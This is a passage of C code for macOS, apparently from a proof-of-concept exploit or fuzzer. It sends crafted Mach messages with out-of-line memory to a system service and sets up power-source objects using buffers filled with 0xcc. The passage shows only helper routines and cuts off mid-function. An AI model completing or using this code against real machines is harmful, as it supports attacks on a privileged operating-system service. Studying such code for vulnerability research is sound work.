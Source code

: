 ```c
        mach_msg_header_t hdr;
        mach_msg_body_t body;
        mach_msg_ool_descriptor_t ool_desc;
    } m = {};

    m.hdr.msgh_size = sizeof(m);
    m.hdr.msgh_local_port = MACH_PORT_NULL;
    m.hdr.msgh_remote_port = service_port;
    m.hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE);
    m.hdr.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    m.hdr.msgh_id = 73019; // let's mimic c_s

    m.body.msgh_descriptor_count = 1;
    m.ool_desc.type = MACH_MSG_OOL_DESCRIPTOR;
    m.ool_desc.address = (void*)&buf[0];
    m.ool_desc.size = size;
    m.ool_desc.deallocate = 0;
    m.ool_desc.copy = MACH_MSG_PHYSICAL_COPY; // very important
    kr = mach_msg(&m.hdr,
                   MACH_SEND_MSG,
                   m.hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);

    CHECK_MACH_ERR(kr,"mach_msg()");

}

uint8_t *do_dummy_allocate_p(uint32_t size,char init)
{
    vm_address_t addr = 0;
    int kr = vm_allocate(mach_task_self(),&addr,size,1);
    CHECK_MACH_ERR(kr,"vm_allocate()");

    memset((void*)addr,init,size);
    char *p = (char*)addr;
    p[size-1] = '\0';
    return (uint8_t*)addr;
}

// if psid is -1, create a new ps entry
void do_update_ps(mach_port_t sp,int *upsid,int iter,uint8_t *p1,uint32_t psize)
{
    kern_return_t kr = 0;
    // we have to call io_ps_new_pspowersource() first
    // to create a new ps object

    CFMutableDictionaryRef Dict1;
    int ret;
    ret = -1;
    int psid = *upsid;
    /*
    if(psize > psizeP) {
        vm_deallocate(mach_task_self(),p,psizeP);
        psizeP = psize;
        p = do_dummy_allocate_p(psizeP, 0xcc);
    }
     */

    // if psid is -1, we've to create new powersource object
    if(psid == -1) {
```